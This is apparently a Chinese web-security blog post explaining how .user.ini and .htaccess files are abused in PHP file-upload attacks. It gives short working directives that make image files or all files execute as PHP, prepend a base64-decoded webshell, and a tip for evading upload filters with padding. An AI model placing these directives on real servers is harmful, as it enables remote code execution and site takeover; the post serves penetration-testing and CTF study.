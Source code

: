 ```yaml
---
title: .user.ini .htaccess配置文件的利用
date: 2024-08-02 16:54:44
permalink: /pages/e8e88b/
categories:
  - web
tags:
  - php
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# .user.ini .htaccess配置文件利用

## .user.ini


php.ini是php的配置文件，.user.ini是用户自定义的php配置文件，.user.ini文件仅作用于他**所在的文件夹及所有子文件夹**

::: danger
利用前提，当前目录存在一个php文件
:::

```
- index.php
- other.php
- upload
    - .user.ini
    - 1.php
    - files
        - 3.php
    - evil.png
- css
- js
```

在这个目录中，.user.ini会影响到1.php以及子目录files下的php文件3.php的行为

例如，在upload目录下存在图片马evil.png

.user.ini内容如下

```ini
auto_prepend_file=evil.png
```

访问1.php，会先包含evil.png并执行其中的php代码

### PHP中常被利用的配置项

- allow_url_fopen：是否允许从远程服务器获取文件
- allow_url_include：是否允许包含远程文件
- auto_prepend_file：在执行目标文件之前，先包含指定的文件
- auto_append_file：在执行目标文件之后，包含指定的文件

前两个可以用于文件包含，php伪协议利用。后两个用于文件上传，文件包含。

## .htaccess


.htaccess文件是apache服务器中的一个配置文件，可以控制服务器的行为

### 常利用的配置项

- AddType：添加文件类型
- AddHandler：添加文件处理器
- php_value: 设置php.ini中的值

jpg文件做为php解析
```plaintext
AddType application/x-httpd-php .jpg
```

所有文件作为php解析
```plaintext
SetHandler application/x-http-php
```

通过php_value来配置PHP的配置选项。

利用文件包含，对于文件内容进行base64编码包含
```plaintext
# 支持php伪协议
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
```

在一些php web文件上传严格的waf下，刀法精准到文件内容的每一个字符如`=<?反引号、等号、尖括号、问号时，可以考虑目标只审计了文件内容的前面部分内容，尝试通过填充大量垃圾内容绕过

参考：

- [文件上传漏洞之.htaccess文件](https://blog.csdn.net/weixin_65279640/article/details/137843949)
- [.htaccess利用与Bypass方式总结](https://www.anquanke.com/post/id/205098)